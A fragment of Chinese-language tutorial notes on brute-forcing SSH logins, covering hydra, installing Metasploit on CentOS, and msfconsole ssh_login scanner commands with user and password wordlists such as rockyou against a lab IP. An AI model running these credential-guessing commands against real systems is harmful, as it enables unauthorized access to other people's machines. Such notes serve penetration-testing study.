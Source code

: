 上面hydra可以遠端破解，可以把user.txt檔案裏面的user使用password.txt暴力破解











## msfconsole

在centos使用msfconsole

[centos install msfconsole](https://computingforgeeks.com/install-metasploit-framework-on-centos-linux/)、[centos install hydra](https://installati.one/centos/7/hydra/)

 yum install -y dnf 

```
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall

chmod +x msfinstall

./msfinstall

msfdb init 
```

user: y，password: 沒有

```
msfconsole
search ssh   ## search scanner/ssh
use auxiliary/scanner/ssh/ssh_login
options
set rhosts [172.16.1.102](target IP)
set stop_on_success true
set user_file users.txt
set pass_file passwords.txt
set verbose true
run
```

[rockyou.txt](https://github.com/praetorian-inc/Hob0Rules/blob/master/wordlists/rockyou.txt.gz): https://github.com/praetorian-inc/Hob0Rules

[user.txt](https://github.com/ThomasTJdev/WMD/blob/master/files/user.txt): https://github.com/ThomasTJdev/WMD







## 關閉防火牆和保護裝置

* `apt install openssh-server`: ssh網路套件安裝 
